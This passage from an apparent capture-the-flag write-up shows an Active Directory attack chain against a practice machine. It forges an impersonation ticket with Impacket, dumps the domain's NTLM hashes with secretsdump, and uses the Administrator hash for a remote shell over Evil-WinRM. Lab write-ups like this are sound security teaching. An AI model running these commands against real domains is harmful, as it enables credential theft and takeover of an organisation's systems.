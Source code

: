And get a Silver Ticket:

```

oxdf@hacky$ getST.py -spn 'cifs/AUTHORITY.AUTHORITY.HTB' -impersonate Administrator 'authority.htb/0xdf$:0xdf0xdf0xdf'
Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache

```

With this, I can dump the NTLM hashes from the DC:

```

oxdf@hacky$ KRB5CCNAME=Administrator.ccache secretsdump.py -k -no-pass authority.htb/administrator@authority.authority.htb -just-dc-ntlm
Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6961f422924da90a6928197429eea4ed:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:bd6bd7fcab60ba569e3ed57c7c322908:::
svc_ldap:1601:aad3b435b51404eeaad3b435b51404ee:6839f4ed6c7e142fed7988a6c5d0c5f1:::
AUTHORITY$:1000:aad3b435b51404eeaad3b435b51404ee:40411717d1f7710c4ba1e3f5e1906d90:::
0xdf$:11602:aad3b435b51404eeaad3b435b51404ee:81cebe41108f5b1c36f3dd3c01dccfc3:::
[*] Cleaning up... 

```

That hash works over Evil-WinRM:

```

oxdf@hacky$ evil-winrm -i authority.htb -u administrator -H 6961f422924da90a6928197429eea4ed

Evil-WinRM shell v3.4

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>

```